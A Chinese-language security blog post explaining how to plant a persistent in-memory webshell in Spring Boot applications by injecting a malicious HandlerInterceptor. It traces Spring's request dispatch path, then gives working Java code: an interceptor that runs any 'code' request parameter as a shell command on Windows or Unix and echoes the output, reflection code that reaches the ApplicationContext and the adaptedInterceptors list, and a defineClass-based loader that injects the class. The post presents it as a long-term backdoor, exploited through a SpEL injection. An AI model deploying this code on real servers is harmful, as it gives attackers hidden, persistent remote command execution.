







# 利用 intercetor 注入 spring 内存 webshell


## 0x00：前言

在工作中，我遇到一个基于 `spring boot` 框架开发，并且可以执行任意代码的 `Restful Api` 漏洞环境。目标机器有安全限制无法连接外网。这时候，一种方便后续继续操作或者说长期驻留后门的办法就是注入 java 内存 webshell。

目前针对 java web 注入内存 webshell 的经验有不少师傅已经总结过了，主流是根据不同的 **web 容器**（`tomcat`、`weblogic` 等）和不同的 **web 技术框架**（`servlet`、`spring` 系列等）来注入 `filter`、`listener`、`servlet`、`controller` 等不同形式的内存马。

随着微服务部署技术的迭代演进，大型业务系统在到达真正的应用服务器之前往往需要经过 `Load Balancer` 和 `API Gateway` 等系统的流量转发。这样就导致在漏洞利用时可能会出现一个问题：如果请求的 url 是没有在网关系统注册的路由，在请求转发到真正的业务系统前就会被丢弃。

所以，在注入 java 内存马时，尽量不要使用新的路由来专门处理我们注入的 webshell 逻辑，最好是在每一次请求到达真正的业务逻辑前，都能提前进行我们 webshell 逻辑的处理。在 `tomcat` 容器下，有 `filter`、`listener` 等技术可以达到上述要求。那么在 `spring` 框架层面下，有办法达到上面所说的效果吗？


## 0x01：探索

为了解决上面的问题，我们首先需要探究的是：**一个 request 发送到 spring 应用，是怎么一步一步到达业务处理逻辑 controller 层的？**


首先，因为 spring boot 使用 `embed tomcat` 作为容器，根据查阅资料或者调试经验，可以把第一个断点放置在下图所示的 `org.apache.catalina.core.ApplicationFilterChain` 的 `internalDoFilter` 方法中。



方法中通过迭代进行

```
filterChain.doFilter(request, response) -> filter.doFilter(request, response)
```

最终会遍历完成所有 filter 的逻辑。

在经过 **Filter** 层面处理后，就会进入熟悉的 **spring-webmvc** 组件 `org.springframework.web.servlet.DispatcherServlet` 类的  `doDispatch` 方法中。

为了方便分析，可把方法代码简化如下：

```java
	protected void doDispatch(HttpServletRequest request, HttpServletResponse response) throws Exception {
		HttpServletRequest processedRequest = request;
		HandlerExecutionChain mappedHandler = null;
		......
		try {
			......
			try {
				......
				// Determine handler for the current request.
				mappedHandler = getHandler(processedRequest);
        
				......
				// Determine handler adapter for the current request.
				HandlerAdapter ha = getHandlerAdapter(mappedHandler.getHandler());
        
				......
				if (!mappedHandler.applyPreHandle(processedRequest, response)) {
					return;
				}
        
				// Actually invoke the handler.
				mv = ha.handle(processedRequest, response, mappedHandler.getHandler());

				......
				mappedHandler.applyPostHandle(processedRequest, response, mv);
			}
			......
			processDispatchResult(processedRequest, response, mappedHandler, mv, dispatchException);
		}
		......
	}
```

首先注意到

```java
mappedHandler = getHandler(processedRequest);
```

一行代码。跟入进去发现实际上是通过 `org.springframework.web.servlet.DispatcherServlet` 类的 `getHandler` 方法来获取处理本次请求的 `handler`。

```java
	protected HandlerExecutionChain getHandler(HttpServletRequest request) throws Exception {
		if (this.handlerMappings != null) {
			for (HandlerMapping mapping : this.handlerMappings) {
				HandlerExecutionChain handler = mapping.getHandler(request);
				if (handler != null) {
					return handler;
				}
			}
		}
		return null;
	}
```

在 `getHandler` 方法中，会通过遍历下图中的  `this.handlerMappings` 来获取 `HandlerMapping` 对象实例 `mapping`




其中 `mapping.getHandler(request)` 实际上会调用下图的 `org.springframework.web.servlet.handler.AbstractHandlerMapping` 类的 `getHandler` 方法，并通过 `getHandlerExecutionChain(handler, request)`  方法返回 `HandlerExecutionChain` 类的实例。




如下图，继续跟入 `getHandlerExecutionChain` 方法中，发现会遍历 `this.adaptedInterceptors` 对象里所有的 `HandlerInterceptor` 类实例，通过 `chain.addInterceptor` 把已有的所有拦截器加入到需要返回的 `HandlerExecutionChain` 类实例中。




清楚了程序在哪里加入的 `interceptor` 后，返回刚开始的  `doDispatch` 方法简化代码中。

重点关注下面的 if 语句，发现会调用 `applyPreHandle` 方法

```
if (!mappedHandler.applyPreHandle(processedRequest, response)) {
	return;
}
```

继续跟入 `applyPreHandle` 方法中 ，发现实际调用的是下图  `org.springframework.web.servlet.HandlerExecutionChain` 类的 `applyprehandle` 方法，并会在方法中通过 `getInterceptors()` 获取所有的拦截器，然后一个个调用拦截器的 `preHandle` 方法。




所以，到现在我们也清楚了程序是在哪里开始调用的 `interceptor` 。实际内容到这里就差不多了，不过如果要继续跟进刚开始的  `doDispatch` 方法，到下面这行代码

```
mv = ha.handle(processedRequest, response, mappedHandler.getHandler());
```

会发现程序调用了 `org.springframework.web.servlet.mvc.method.AbstractHandlerMethodAdapter` 类的 `handle` 方法。

如果程序提前在调用的 `Controller` 上设置了 `Aspect`（切面），那么在正式调用 `Controller` 前实际上会先调用切面的代码，一定程度上也起到了 "拦截" 的效果。

不过因为 spring boot 是使用 CGLib 动态代理技术来实现的 `Aspect`，所以细究起来不如使用 `Interceptor` 技术实现注入 webshell 更方便。

那么总结一下，一个 request 发送到 spring 应用，大概会经过以下几个层面才会到达处理业务逻辑的 Controller 层：

```
HttpRequest --> Filter --> DispactherServlet --> Interceptor --> Aspect --> Controller
```


## 0x02：实现

经过一番探索，我们发现使用 `Interceptor` 来拦截所有进入 `Controller` 的 http 请求理论上是可行的，接下来就是实现从代码层面动态注入一个 `Interceptor` 来达到 webshell 的效果。

### 一：实现恶意 Interceptor

首先，我写了一个继承自 `org.springframework.web.servlet.handler.HandlerInterceptorAdapter` 类，名为 `magicInterceptor` 的拦截器，并重写了 `preHandle` 方法，在其中实现一个简单的命令执行回显的 webshell 逻辑。

当请求参数中含有 `code` 字符串时，会把它的值当作命令执行，否则就忽略这次拦截，继续进行正常的业务逻辑。

```java
import org.springframework.web.servlet.handler.HandlerInterceptorAdapter;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;

public class magicInterceptor extends HandlerInterceptorAdapter {
    @Override
    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String code = request.getParameter("code");
        if(code != null){
            try {
                java.io.PrintWriter writer = response.getWriter();
                String o = "";
                ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", code});
                }else{
                    p = new ProcessBuilder(new String[]{"/bin/sh", "-c", code});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }catch (Exception e){
            }
            return false;
        }
        return true;
    }

}
```


### 二：获取 ApplicationContext

然后，根据 **0x01: 探索** 中的详细分析，我选择把上面的 `magicInterceptor` 类实例手动注入到 `org.springframework.web.servlet.handler.AbstractHandlerMapping` 类的 `adaptedInterceptors` 属性中。

这里就遇到了个问题，怎么拿到当前代码运行环境中原来的 `adaptedInterceptors` 属性值呢？

如果理解了我早先写的一篇文章 [基于内存 Webshell 的无文件攻击技术研究](https://landgrey.me/blog/12/)，就会很自然的想到，可以从当前代码运行时的上下文环境 `ApplicationContext` 中去寻找。

早先文章中提供了四种获取 `ApplicationContext` 的办法，这里再提供一种我 debug spring boot 源码时发现的另一种办法。

spring boot 初始化过程中会往  `org.springframework.context.support.LiveBeansView` 类的 `applicationContexts` 属性中添加  `org.springframework.boot.web.servlet.context.AnnotationConfigServletWebServerApplicationContext`  类的对象。

 `applicationContexts` 属性定义如下所示：

```java
private static final Set<ConfigurableApplicationContext> applicationContexts = new LinkedHashSet();
```

因为使用了 `private static final` 修饰符，所以可以直接反射获取属性值。

示例代码如下：

```java
// 1. 反射 org.springframework.context.support.LiveBeansView 类 applicationContexts 属性
java.lang.reflect.Field filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
// 2. 属性被 private 修饰，所以 setAccessible true
filed.setAccessible(true);
// 3. 获取一个 ApplicationContext 实例
org.springframework.web.context.WebApplicationContext context =(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
```


值得注意的是，因为 `org.springframework.context.support.LiveBeansView`  类在 `spring-context` **3.2.x** 版本（现在最新版本是 **5.3.x**）才加入其中，所以比较低版本的 spring 无法通过此方法获得 `ApplicationContext` 的实例。


### 三. 获取 `adaptedInterceptors` 属性值

获得 `ApplicationContext` 实例后，还需要知道 `org.springframework.web.servlet.handler.AbstractHandlerMapping` 类实例的 bean name 叫什么。

自己研究过或者分析过我 [早先文章](https://landgrey.me/blog/12/) 的应该已经比较清楚了， bean 实例名字是 `requestMappingHandlerMapping` 或者比较老版本的 `DefaultAnnotationHandlerMapping` 。那么获取 `adaptedInterceptors` 属性值就比较简单了：

```java
org.springframework.web.servlet.handler.AbstractHandlerMapping abstractHandlerMapping = (org.springframework.web.servlet.handler.AbstractHandlerMapping)context.getBean("requestMappingHandlerMapping");
java.lang.reflect.Field field = org.springframework.web.servlet.handler.AbstractHandlerMapping.class.getDeclaredField("adaptedInterceptors");
field.setAccessible(true);
java.util.ArrayList<Object> adaptedInterceptors = (java.util.ArrayList<Object>)field.get(abstractHandlerMapping);
```


### 四. 注入 Interceptor

万事俱备，最后只要把第一步实现的恶意 Interceptor 类加入到 `adaptedInterceptors` 属性值中就可以了。

这里顺便讲个小技巧，可以把 `magicInterceptor` 类在当前线程上下文的 ClassLoader 中定义，然后再从其中取出来就可以获得类实例了。

```java
String className = "magicInterceptor";
String b64 = "......"; // magicInterceptor 类 class 的 base64 编码
byte[] bytes = sun.misc.BASE64Decoder.class.newInstance().decodeBuffer(b64);
java.lang.ClassLoader classLoader = Thread.currentThread().getContextClassLoader();
try {
	classLoader.loadClass(className);
}catch (ClassNotFoundException e){
  java.lang.reflect.Method m0 = ClassLoader.class.getDeclaredMethod("defineClass", String.class, byte[].class, int.class, int.class);
  m0.setAccessible(true);
  m0.invoke(classLoader, className, bytes, 0, bytes.length);
  adaptedInterceptors.add(classLoader.loadClass("magicInterceptor").newInstance());
}
```


最后，我模拟了一个有 SpEL 表达式注入漏洞的场景，然后通过利用漏洞来注入 Interceptor。




然后随便访问一个路径，参数加上 `?code=id` 就可以执行命令了




## 0x03: 后语

本文通过分析请求发送到 spring 应用到达业务逻辑 controller 层所经过的主要层次，提出了一种利用 intercetor 注入 spring 内存 webshell 的技术方案，并进行了相应的实现。在 spring 框架层面基本达到了和 Filter 型内存 webshell 一样的效果。


## 参考链接：

https://landgrey.me/blog/12/

https://juejin.im/post/6844904020675559432

